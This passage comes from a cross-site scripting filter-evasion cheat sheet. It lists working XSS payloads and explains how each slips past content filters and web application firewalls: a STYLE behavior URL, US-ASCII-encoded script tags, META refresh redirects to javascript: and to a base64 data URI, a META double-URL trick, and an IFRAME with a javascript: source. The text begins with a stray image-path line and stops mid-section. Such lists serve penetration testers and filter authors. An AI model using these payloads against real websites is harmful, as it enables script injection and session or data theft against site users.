     <XSS STYLE="behavior: url(xss.htc);">

## US-ASCII encoding

US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII
encoding with 7 bits instead of 8. This XSS may bypass many content
filters but only works if the host transmits in US-ASCII encoding, or if
you set the encoding yourself. This is more useful against web
application firewall cross site scripting evasion than it is server side
filter evasion. Apache Tomcat is the only known server that transmits in
US-ASCII encoding.

    `¼script¾alert(¢XSS¢)¼/script¾`

## META

The odd thing about meta refresh is that it doesn't send a referrer in
the header - so it can be used for certain types of attacks where you
need to get rid of referring URLs:

    `<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">`

### META using data

Directive URL scheme. This is nice because it also doesn't have anything
visibly that has the word SCRIPT or the JavaScript directive in it,
because it utilizes base64 encoding. Please see RFC 2397 for more
details or go here or here to encode your own. You can also use the XSS
[calculator](http://ha.ckers.org/xsscalc.html) below if you just want to
encode raw HTML or JavaScript as it has a Base64 encoding method:

    `<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">`

### META with additional URL parameter

If the target website attempts to see if the URL contains "<http://>;"
at the beginning you can evade it with the following technique
(Submitted by Moritz Naumann):

    `<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">`

## IFRAME

If iframes are allowed there are a lot of other XSS problems as well:

    `<IFRAME SRC="javascript:alert('XSS');"></IFRAME>`

## IFRAME Event based

IFrames and most other elements can use event based mayhem like the
following... (Submitted by: David Cross)
